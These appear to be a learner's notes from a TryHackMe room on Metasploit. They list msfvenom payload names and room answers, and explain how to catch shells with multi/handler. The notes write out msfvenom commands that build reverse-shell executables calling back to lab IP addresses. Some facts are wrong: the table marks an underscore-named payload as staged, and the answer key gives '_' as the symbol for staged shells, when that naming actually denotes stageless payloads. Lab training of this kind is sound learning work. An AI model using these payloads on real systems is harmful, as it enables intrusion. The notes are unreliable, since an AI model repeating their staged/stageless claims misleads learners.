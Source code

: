 
Meterpreter shells are from Metasploit, they are fully featured shells, stable and are good to use with a Windows Target. They allow for file upload and download.


Payload naming conventions for msfvenom

| syntax                               | description (stageless)       |
|--------------------------------------|-------------------------------|
| `<OS>/<arch>/<payload>`              | basic syntax                  |
| `msfvenom --list payloads`           | available payloads            |
| linux/x86/shell_reverse_tcp          | reverse shell Linux           |
| windows/shell_reverse_tcp            | Windows 32bit no arch         |
| windows/x86/shell_reverse_tcp        | Windows 32bit arch            |
| windows/x64/meterpreter_reverse_tcp  | staged payload                |
| linux/x86/meterpreter_reverse_tcp    | 32bit stageless               |


- `msfvenom --list payloads | grep "linux/x86/meterpreter"`

Question: _Generate a staged reverse shell for a 64 bit Windows target, in a .exe format using your TryHackMe tun0 IP address and a chosen port._

- `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.11.12.223 LPORT=443`

Question: _Which symbol is used to show that a shell is staged?_

- `_`

Question: _What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell_

- `msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443`












## Task 10 


Metasploit multi/handler is a tool for catching reverse shells, and is
essential for Meterpreter shells for staged payloads.

- terminal `msfconsole`
- `use multi/handler` hit enter and starts the session with `options`
- `set PAYLOAD <payload>`
- `set LHOST <IP>`
- `set LPORT <PORT>`
- exploit -j command which launches the _job_ in the background
- sudo must be used
- sessions 1 for foreground, sessions <num>
